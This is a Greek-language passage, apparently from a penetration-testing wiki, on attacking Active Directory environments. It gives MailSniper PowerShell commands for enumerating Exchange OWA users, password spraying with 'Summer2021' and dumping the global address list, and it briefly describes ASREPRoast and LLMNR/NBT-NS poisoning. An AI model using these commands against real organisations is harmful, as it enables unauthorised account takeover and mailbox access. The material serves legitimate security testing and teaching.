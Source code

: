 Αν βρείτε έναν από αυτούς τους διακομιστές στο δίκτυο, μπορείτε επίσης να εκτελέσετε **enumeration χρηστών εναντίον του**. Για παράδειγμα, θα μπορούσατε να χρησιμοποιήσετε το εργαλείο [**MailSniper**](https://github.com/dafthack/MailSniper):
```bash
ipmo C:\Tools\MailSniper\MailSniper.ps1
# Get info about the domain
Invoke-DomainHarvestOWA -ExchHostname [ip]
# Enumerate valid users from a list of potential usernames
Invoke-UsernameHarvestOWA -ExchHostname [ip] -Domain [domain] -UserList .\possible-usernames.txt -OutFile valid.txt
# Password spraying
Invoke-PasswordSprayOWA -ExchHostname [ip] -UserList .\valid.txt -Password Summer2021
# Get addresses list from the compromised mail
Get-GlobalAddressList -ExchHostname [ip] -UserName [domain]\[username] -Password Summer2021 -OutFile gal.txt
```
{% hint style="warning" %}
Μπορείτε να βρείτε λίστες χρηστών σε [**αυτό το github repo**](https://github.com/danielmiessler/SecLists/tree/master/Usernames/Names) \*\*\*\* και σε αυτό ([**statistically-likely-usernames**](https://github.com/insidetrust/statistically-likely-usernames)).

Ωστόσο, θα πρέπει να έχετε το **όνομα των ατόμων που εργάζονται στην εταιρεία** από το βήμα αναγνώρισης που θα έπρεπε να έχετε εκτελέσει πριν από αυτό. Με το όνομα και το επώνυμο μπορείτε να χρησιμοποιήσετε το σενάριο [**namemash.py**](https://gist.github.com/superkojiman/11076951) για να δημιουργήσετε πιθανές έγκυρες ονομασίες χρηστών.
{% endhint %}

### Γνωρίζοντας ένα ή περισσότερα ονόματα χρηστών

Εντάξει, γνωρίζετε ότι έχετε ήδη ένα έγκυρο όνομα χρήστη αλλά όχι κωδικούς πρόσβασης... Τότε δοκιμάστε:

* [**ASREPRoast**](asreproast.md): Αν ένας χρήστης **δεν έχει** το χαρακτηριστικό _DONT\_REQ\_PREAUTH_ μπορείτε να **ζητήσετε ένα μήνυμα AS\_REP** για αυτόν τον χρήστη που θα περιέχει κάποια δεδομένα κρυπτογραφημένα με μια παραλλαγή του κωδικού πρόσβασης του χρήστη.
* [**Password Spraying**](password-spraying.md): Ας δοκιμάσουμε τους πιο **συνηθισμένους κωδικούς πρόσβασης** με κάθε έναν από τους ανακαλυφθέντες χρήστες, ίσως κάποιος χρήστης να χρησιμοποιεί έναν κακό κωδικό (κρατήστε στο μυαλό σας την πολιτική κωδικών πρόσβασης!).
* Σημειώστε ότι μπορείτε επίσης να **spray OWA servers** για να προσπαθήσετε να αποκτήσετε πρόσβαση στους διακομιστές αλληλογραφίας των χρηστών.

{% content-ref url="password-spraying.md" %}
[password-spraying.md](password-spraying.md)
{% endcontent-ref %}

### LLMNR/NBT-NS Poisoning

Μπορείτε να **αποκτήσετε** κάποιες προκλήσεις **hashes** για να σπάσετε **poisoning** κάποιων πρωτοκόλλων του **δικτύου**:

{% content-ref url="../../generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md" %}
[spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md](../../generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md)
{% endcontent-ref %}
